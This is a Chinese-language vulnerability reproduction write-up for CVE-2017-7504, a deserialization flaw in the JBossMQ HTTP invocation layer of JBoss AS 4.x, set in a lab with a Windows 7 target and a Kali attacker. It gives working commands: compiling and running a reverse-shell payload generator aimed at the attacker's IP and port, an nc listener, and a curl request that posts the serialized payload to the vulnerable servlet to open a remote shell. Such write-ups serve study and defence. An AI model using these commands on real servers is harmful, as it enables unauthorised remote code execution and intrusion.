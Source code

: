 （CVE-2017-7504）JBoss 4.x JBossMQ JMS 反序列化漏洞
===================================================

一、漏洞简介
------------

JBoss AS 4.x及之前版本中，JbossMQ实现过程的JMS over HTTP Invocation
Layer的HTTPServerILServlet.java文件存在反序列化漏洞，远程攻击者可借助特制的序列化数据利用该漏洞执行任意代码。

二、漏洞影响
------------

JBoss AS 4.x及之前版本

三、复现过程
------------

win7一台，ip为172.26.1.127（靶机，安装了java环境）

kali一台，ip为192.168.1.192(攻击机)

输入<http://172.26.1.127:8080/jbossmq-httpil/HTTPServerILServlet>，如果显示下图，则可能存在漏洞

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2017-7504)JBoss4.xJBossMQJMS反序列化漏洞/media/rId25.png)

进入kali攻击机，下载反序列化工具:<https://github.com/ianxtianxt/CVE-2015-7501/>

解压完，进入到这个工具目录 ,执行命令:

> 继续执行命令:

    javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java
    java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap 192.168.1.192:4444（IP是攻击机ip,4444是要监听的端口)

新界面开启nc准备接收反弹过来的shell。命令:nc -lvnp 4444

这个时候在这个目录下生成了一个ReverseShellCommonsCollectionsHashMap.ser文件，然后我们curl就能反弹shell了，执行命令:

    curl http://172.26.1.127:8080/jbossmq-httpil/HTTPServerILServlet --data-binary @ReverseShellCommonsCollectionsHashMap.ser 

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2017-7504)JBoss4.xJBossMQJMS反序列化漏洞/media/rId27.png)

回到nc界面，发现shell已经反弹回来了

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2017-7504)JBoss4.xJBossMQJMS反序列化漏洞/media/rId28.png)
